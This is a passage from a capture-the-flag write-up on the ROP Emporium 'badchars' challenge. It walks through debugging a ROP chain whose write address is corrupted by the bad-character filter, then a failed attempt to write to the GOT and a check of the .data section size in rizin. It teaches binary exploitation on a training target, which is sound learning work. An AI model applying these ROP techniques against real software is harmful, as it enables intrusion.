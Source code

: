 Look at the value of `r15`. The address of `data` is `0x601028`, and `0x6010eb` is more than 6 bytes away from that. We're writing to an address completely outside of `data`. But what could be causing this?

If we think back to `pwnme`, it changes every bad character it encounters to `0xeb`. This means that we inadvertently sent in a byte that was supposed to be part of an address, but got interpreted as a bad character. The author even addresses this in the challenge introduction:

> When constructing your ROP chain remember that the badchars apply to _every_ character you use, not just parameters but addresses too.

We can confirm this in interactive Python:

```python
>>> hex(0x28 + 6)
'0x2e'
>>> chr(0x2e)
'.'
```

A period (ASCII code `0x2e`) is a bad character, so `0x60102e` got changed to `0x6010eb`.

So how do we solve this?

I know. Let's try writing to the GOT instead.

```python
# change the value to this
DATA_ADDR = 0x600ff0 # address of GOT in memory
```

```text
$ python exploit.py
[*] '/home/sammy/Projects/binexp/ropemporium/5-badchars/badchars'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Starting local process '/home/sammy/Projects/binexp/ropemporium/5-badchars/badchars': pid 71476
[+] Receiving all data: Done (11B)
[*] Process '/home/sammy/Projects/binexp/ropemporium/5-badchars/badchars' stopped with exit code -11 (SIGSEGV) (pid 71476)
b'Thank you!\n'
```

Nope. In fact, we did even worse, completely missing `print_file`. Since our payload is virtually identical, this probably means that we overrode some data the program needed to function properly.

What are our other options?

If we check the size of `.data` in `rizin`, we see that it is 16 bytes long (double the length of our string):

```text
[0x00400638]> iS
paddr      size  vaddr      vsize align perm name               type       flags         
-----------------------------------------------------------------------------------------
<snip>
0x00001028 0x10  0x00601028 0x10  0x0   -rw- .data              PROGBITS   write,alloc
<snip>
```
